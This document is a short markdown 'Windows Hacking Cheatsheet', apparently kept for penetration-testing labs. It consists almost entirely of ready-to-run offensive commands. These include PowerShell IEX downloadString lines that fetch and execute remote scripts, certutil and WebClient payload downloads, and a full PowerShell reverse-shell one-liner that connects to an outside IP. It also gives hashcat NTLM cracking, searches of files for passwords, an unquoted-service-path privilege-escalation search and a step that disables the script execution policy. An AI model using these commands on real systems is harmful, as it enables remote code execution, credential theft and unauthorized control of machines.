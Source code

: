 # WINDOWS HACKING CHEATSHEET

### Windows spawn cmd and execute command
`cmd.exe /c echo "hello world"`

### Windows download from web
`IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')`

### Use certutil to download from web
`certutil.exe -urlcache -split -f "http://10.9.3.23/Advanced.exe" Advanced.exe`

## Windows Powershell download from web
`powershell "IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')"`

## Powershell Reverse Shell One Liner
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.25.31",7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Mount NFS v3
`mount -t nfs -o vers=3 $ip:/dir /mnt/dir`

## Download via windows CMD
`powershell -c (new-object System.Net.WebClient).DownloadFile('http://192.168.25.31/privesc/accesschk.exe','C:\Users\GitService\Desktop\accesschk.exe')`

## Show Patches
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

## Use cached creds Windows
`runas /u:Administrator cmd.exe /c findstr /si *.txt > C:\Users\offsec\Desktop\text.txt`

## Cracking Windows Password Hash
_Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::_
_USERNAME:SID:LM(BLANK=aad3b435b51404eeaad3b435b51404ee):NTLM:::_

`hashcat -m 1000 -a 0 -o plain-pass.txt --remove file-with-hash.hash /usr/share/wordlists/rockyou.txt`
```

## Find file containing keyword
`findstr /si password *.txt | *.xml | *.xls`

## Show Drives
`wmic logicaldisk get caption,Description,providername`

## Find specific directory
`dir <Folder Name> /AD /s`

## Find specific file name on system
`dir /a /s /b c:\*flag2.txt`

`dir /b/s *.txt`

`where /r c:\Windows *.exe *.dll`

## Search long output
`command |more`

## Find Unquoted service paths
`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`

## Allow execution of scripts in powershell
`Set-ExecutionPolicy unrestricted`

## Show execution policy
`Get-ExecutionPolicy -List | Format-table -AutoSize`

## Show User Privlages
`whoami /priv`

## Show a Users Group
`whoami /groups`

## List users in a group
`net localgroup administrtor`

## Show info on specified user
`net user administrator`

## Show Routing table
`route print`